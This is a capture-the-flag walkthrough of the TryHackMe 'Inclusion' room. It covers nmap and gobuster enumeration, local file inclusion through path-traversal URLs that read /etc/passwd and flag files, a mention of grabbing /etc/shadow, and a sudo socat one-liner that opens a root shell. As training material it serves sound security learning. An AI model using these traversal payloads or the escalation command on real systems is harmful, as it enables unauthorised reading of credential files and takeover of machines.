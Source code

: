 # Inclusion

- TryHackMe room: <https://tryhackme.com/room/inclusion>
- OS: `Linux (Ubuntu)`

A beginner level LFI challenge.

![alt text](files/writeup-header.png "Writeup Image")

**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration](#enumeration)
- [Looking on the webserver](#looking-on-the-webserver)
- [Grabbing user.txt and root.txt flags](#grabbing-usertxt-and-roottxt-flags)
- [Extra bits](#extra-bits)

## Setup

```commandline
$ export IP_TARGET=10.10.208.207
$ export WRITEUP="$HOME/Documents/THM/inclusion/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

| Name | Usage |
|---|---|
| `nmap` | Port & services enumeration |
| `gobuster` | Web server enumeration |

## Enumeration

Started a `nmap` scan:

````commandline
# nmap -sCV -A $IP_TARGET 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 15:16 CEST
Nmap scan report for 10.10.208.207
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/18%OT=22%CT=1%CU=38644%PV=Y%DS=2%DC=T%G=Y%TM=6145E6C
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   28.07 ms 10.8.0.1
2   28.47 ms 10.10.208.207

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.99 seconds
````

Enumerating the web server did not reveal anything actualy.

````commandline
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP_TARGET
````

## Looking on the webserver

The website looks like to be a blog style. Nothing fancy but clean. Front page, pointing to 3 different articles.

![alt text](files/website_01.png "website")

When clicking onto an article, load up something's like a plain text page. Which could give us the big hint that this website is loading up a real text file from the system. In other words, pointing to a file.

Interesting to see, is of course the content of these page, as they contain valuable information and with a "Taken from ...". I have put the links below.

![alt text](files/website_02.png "website")

- Hacking this world - <https://www.guru99.com/what-is-hacking-an-introduction.html>
- LFI-attack - <https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/>
- RFI-attack - <https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/>

But the real interesting part here in the hacking process is the URL itself. <http://10.10.208.207/article?name=hacking>. The article named `hacking` is a real (text) file on the system and not a reference to something in some kind or database. Knowing this, we know the system is subject to the `LFI (Local File Inclusion)` vulnerability. Instead of using the article's file name that the different links on the website provide us, we can put the path of a file name present on the system.

## Grabbing user.txt and root.txt flags

We know there is an `LFI (Local File Inclusion)` vulnerability with this system, and to make use of this, it is a bit of trial and error to get the content of the file we want. If we use the wrong path, we will get an HTTP status of 500 (Internal Server Error). So, we know we need to try again.

![alt text](files/website_500_error.png "website")

Going to: <http://10.10.208.207/article?name=../../../etc/passwd> reveals us the content of the `/etc/passwd` file of that system, thus all the available usernames on this system.

![alt text](files/website_03.png "website")

However, it is better to look at the source view of this page, as the source view will keep a better formatting style. This is especially crucial for readability, but also for copy & paste tricks without the need to reformat too much. For example if we want to copy the user's `ssh` `id_rsa` file. However, In this situation, this use does not have a `.ssh` folder in his home directory. 

![alt text](files/website_04.png "website")

Knowing the username, we can actually grab the `user.txt` file (the ctf flag) by browsing to <http://10.10.208.207/article?name=../../../home/falconfeast/user.txt>

    60*****511839*****99

In this case, we can also grab the `root.txt` flag the same way: <http://10.10.208.207/article?name=../../../root/root.txt>

    42*****484549*****09

But actually, in this situation, the password of the `falconfeast` user is even commented out in the `/etc/passwd` file. Logging in with ssh for this username and password works.

## Extra bits

We could eventually also grab the `/etc/shadow` file with the same method as described before, to get the hashes of the `root` user and the `falconfeast` user and try to crack it. But this is absolutely not needed to finish this CTF room. And there are more easy ways.

We can log in with user `falconfeast` over `ssh` and use the password indicated in plaintext in the `/etc/password` file.

Once logged in with that user, we can do some easy vertical privilege escalation by making use of `sudo`. As this user seems to be able to run `socat` with `root` privileges.

````commandline
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
````

Looking up on [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo) about a method to escalated by using `socat` and we obtain root privileges.

````commandline
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh

whoami
root
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
